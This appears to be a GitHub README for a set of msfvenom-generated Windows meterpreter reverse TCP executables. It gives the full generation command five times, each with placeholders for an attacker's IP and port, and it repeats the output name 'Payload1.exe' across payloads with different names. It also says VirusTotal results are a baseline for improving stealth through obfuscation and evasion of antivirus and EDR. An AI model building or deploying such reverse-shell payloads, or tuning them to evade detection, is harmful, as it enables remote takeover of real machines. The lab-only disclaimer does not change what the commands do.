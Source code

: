 # Payload Generated with Msfvenom

This directory contains a payloads generated using the `msfvenom` tool, which is widely used for creating and testing malicious payloads in controlled environments. The payload included here serves as a baseline for analyzing antivirus (AV) and Endpoint Detection and Response (EDR) detection capabilities.

---

## File Details

### `Payload1.exe`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload2.exe`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload3.exe`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload4.exe`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload5.exe`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---



## Detection Analysis

The payloads were uploaded to VirusTotal to evaluate detection rates across various antivirus engines. The results are used as a baseline to identify opportunities for improving stealth through encoding, obfuscation, and other evasion techniques.

---

## Legal Notice

- **For Educational and Research Purposes Only**: This payload is strictly intended for testing in isolated environments such as virtual machines or lab setups.
- **Prohibited Usage**: Unauthorized use or deployment on live systems or production environments is against the law and organizational policies.
- **Responsibility Disclaimer**: The creator assumes no liability for misuse of the provided tools or files.
